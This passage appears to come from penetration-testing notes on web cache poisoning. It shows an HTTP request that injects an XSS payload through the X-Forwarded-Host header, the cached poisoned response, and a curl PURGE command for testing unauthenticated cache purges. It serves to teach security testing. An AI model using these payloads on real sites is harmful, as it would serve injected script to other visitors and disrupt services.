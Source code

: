 Here the `X-Forwarded-Host` header has been used by the application to generate an Open Graph URL inside a meta tag. The next step is to explore whether it's exploitable – start with a simple XSS payload:

```http
GET /en?bar=1 HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: foo."><script>alert(1)</script>
```

```http
HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://foo."><script>alert(1)</script>"/> 
```

That response will execute arbitrary JavaScript against whoever views it. Don't let the `Cache Control: no-cache` header dissuade you – it's always better to attempt an attack than assume it won't work.

The final step is to check if this response has been stored in a cache so that it'll be delivered to other users. You can verify this first by sending the request without the malicious header, and then by fetching the URL directly in a browser on a different machine:

```http
GET /en?bar=1 HTTP/1.1
Host: vulnerable-website.com
```

```http
HTTP/1.1 200 OK
...
<meta property="og:image" content="https://foo."><script>alert(1)</script>"/>
```

{% embed url="https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner" %}

References:
- [PortSwigger Research: Web Cache Entanglement: Novel Pathways to Poisoning](https://portswigger.net/research/web-cache-entanglement)
- [PortSwigger Research: Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)

## Unauthenticated cache purge

Cache purge allows you to delete stored cache. If the Purge request is available without authentication you can invalidate stored cache, increase bandwidth costs and degrade application performance.

You can check this with the following curl request:

```bash
$ curl -X PURGE https://vulnerable-website.com/
```

It a resource vulnerable you will see the answer like the following:

```json
{
    "status": "ok",
    "id": "4234-1234567890-123123"
}
```
